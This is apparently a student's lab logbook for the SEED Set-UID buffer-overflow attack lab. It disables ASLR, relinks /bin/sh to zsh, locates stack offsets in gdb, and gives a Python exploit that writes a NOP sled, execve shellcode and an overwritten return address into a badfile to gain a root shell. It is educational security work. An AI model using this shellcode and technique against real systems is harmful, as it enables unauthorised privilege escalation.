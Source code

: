 # Buffer-Overflow Attack Lab - Set-UID Version

# Introduction

In this logbook we will execute an exploit related to buffer-overflow. To do that we need to turn off some countermeasures of the system.

To prevent this type of attacks the systems implemented an address space randomization that will randomize the starting address of heap and stack. This makes guessing the addresses, one of the critical steps of buffer-overflow attacks, much more difficult.

To turn off this feature we ran this command:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

In the recent versions of Ubuntu OS, the `/bin/sh` symbolic link points to the `/bin/dash` shell. The `dash` program, as well as `bash`, has implemented a security countermeasure that prevents itself from being executed in a `Set-UID` process.

So we used the following command to link `/bin/sh` to another shell that doesn't have such a countermeasure `zsh`:

```bash
$ sudo ln -sf /bin/zsh /bin/sh
```

## Question 1

### Task 1

In this task we learn how a shell code works. Using the code provided in the file *call_shellcode.c* we can initiate a new shell. When we compile this program with the given *Makefile* it will create two binaries, *a32.out* and *a64.out*. Runnig them we will see that a new shell is initiated. 

### Task 2

In this task we deep dive to better understand the way the attack will be performed. First we disabled certain security mechanisms, to ensure that the program is susceptible to a buffer overflow attack, only then we compiled the vulnerable program `stack.c`. By setting the program as a root-owned Set-UID program, we created the conditions needed for potential privilege escalation when the vulnerability is exploited in the next task.

### Task 3

In this task we used `gdb` to debug the file `stack-L1-dbg` that we created using the Makefile.
Using this tool we can obtain the ebp and the buffer address and this way we can calculate the offset (difference between the ebp address and the buffer adress plus 4). With the offset we know were the eip address is and we can manipulate it to have the address of some function we want to run instead of the address of the point were the eip is pointing at. In this case we will pass the address of our shellcode.

Knowing this we create a script in python (`exploit.py`) were we create a badfile with 517 nop's (this will overflow the buffer because the size is 100+8*6).



<div align="center">
    <figure>
        <img src="images/logbook5/logbook5_1.png">
        <figcaption style="font-size: smaller">Figure 1: Ebp and buffer adresses</figcaption>
    </figure>
</div>

 

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f" 
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31" 
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca7c + start         # Change this number 
offset = 0xffffcb18 - 0xffffca7c + 4             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
  ```


<div align="center">
    <figure>
        <img src="images/logbook5/logbook5_2.png">
        <figcaption style="font-size: smaller">Figure 2: Exploit working</figcaption>
    </figure>
</div>

## Question 2

